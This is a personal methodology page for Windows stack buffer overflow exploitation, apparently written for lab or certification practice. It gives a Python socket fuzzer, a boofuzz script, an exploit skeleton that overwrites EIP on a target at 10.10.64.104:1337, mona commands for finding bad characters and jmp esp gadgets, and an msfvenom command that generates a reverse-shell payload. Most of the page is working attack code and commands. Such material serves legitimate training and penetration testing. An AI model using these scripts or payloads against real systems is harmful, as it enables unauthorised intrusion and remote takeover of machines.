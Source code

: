 # My methodology

## Setup

### Immunity Debugger

Always run Immunity Debugger as Administrator if you can.

There are generally two ways to use Immunity Debugger to debug an application:

1. Using `File -> Attach` to attack the debugger to the running process.
2. Or by opening Immunity Debugger, and then using `File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

### Mona Setup

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: [:download:\`mona.py &lt;../\_static/files/mona.py&gt;\`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)The latest version can be downloaded here: [https://github.com/corelan/mona](https://github.com/corelan/mona)The manual can be found here: [https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Copy the mona.py file into the PyCommands directory of Immunity Debugger \(usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\).

In Immunity Debugger, type the following to set a working directory for mona.

```text
!mona config -set workingfolder c:\mona\%p
```

## Spiking/Fuzzing

### Raw sockets

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")
s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding and controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "10.10.64.104"
port = 1337

offset = 1978

buffer  = b""
buffer += b"OVERFLOW1 " # prefix
buffer += b"1" * offset # overflow
buffer += b"2222" # return
buffer += b"\x90"*16 # padding
buffer += b"" # payload
buffer += b"" # postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## Finding bad characters

`!mona bytearray -b "\x00"`

```python
#!/usr/bin/env python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona jmp -r esp -cpb "\x00"
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

